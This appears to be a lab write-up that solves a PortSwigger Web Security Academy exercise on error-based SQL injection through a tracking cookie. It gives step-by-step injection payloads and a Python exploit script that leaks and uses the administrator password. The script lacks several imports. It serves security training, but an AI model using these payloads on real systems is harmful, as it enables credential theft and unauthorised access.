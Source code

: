 ```yaml
---
title: 'SQLi Lab 13'
description: 'SQL injection for leaking administrator password via tracking cookie'
---
```



## Visible error-based SQL injection

<div style="text-align: justify;">
  This lab demonstrates a visible error-based SQL injection attack. The application uses a `TrackingId` cookie for analytics, and the submitted value is included in a SQL query. While the results of the query are not returned directly, verbose database error messages can be leveraged to extract sensitive data.

  By carefully manipulating the cookie value, we can leak the administrator username and password from the `users` table. The attack uses `CAST` to convert subquery results to integers and isolates a single row to trigger an informative error, revealing the database content one piece at a time.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Intercept a GET `/` request containing the `TrackingId` cookie.
- Append a single quote to the cookie to generate a SQL error:
```TrackingId=ogAZZfxtOKUELbuJ'```
- Add comment characters to ignore the rest of the query:
```TrackingId=ogAZZfxtOKUELbuJ'--```
- Include a `CAST` operation to craft a valid subquery:
```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--```
- Adapt the query to retrieve the username:
```TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```
- The resulting database error reveals the first username (`administrator`).
- Modify the query to extract the administrator password:
```TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--```
- Use the leaked password to log in as the administrator and complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def extract_value(url, column):
    """
    Extracts username or password from error-based SQLi.
    Uses regex to cleanly capture leaked values from error message.
    """
    payload = f"' AND 1=CAST((SELECT {column} FROM users LIMIT 1) AS int)--"
    cookies = {"TrackingId": payload, "session": "dummy"}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)

    match = re.search(r'invalid input syntax for type integer: "([^"]+)"', r.text)
    if match:
        return match.group(1)  # only the actual leaked value
    return None

def login(url, username, password):
    """Log in using CSRF token and check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }
    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    print("[*] Extracting administrator username...")
    username = extract_value(url, "username")
    if not username:
        print("[-] Failed to extract username")
        sys.exit(1)
    print(f"[+] Found username: {username}")

    print("[*] Extracting administrator password...")
    password = extract_value(url, "password")
    if not password:
        print("[-] Failed to extract password")
        sys.exit(1)
    print(f"[+] Found password: {password}")

    print("[*] Logging in...")
    login(url, username, password)

if __name__ == "__main__":
    main()
```